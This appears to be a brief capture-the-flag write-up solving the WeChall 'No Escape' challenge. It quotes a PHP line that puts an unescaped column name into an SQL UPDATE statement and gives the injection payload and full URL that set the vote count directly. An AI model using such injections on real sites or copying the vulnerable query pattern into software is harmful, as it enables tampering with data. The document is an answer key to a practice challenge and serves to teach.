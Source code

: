 http://www.wechall.net/challenge/no_escape/index.php

according to the problem you can't just click vote button for 111 times to solve it. you need to set the value directly to do it.

we see line 72:
```
$query = "UPDATE noescvotes SET `$who`=`$who`+1 WHERE id=1";
```

if we do ``bill`=111#`` we see an error, we need to continue the SQL statement. add ``,`george`=`george` `` and done

answer: http://www.wechall.net/challenge/no_escape/index.php?vote_for=bill`=111,`george`=`george
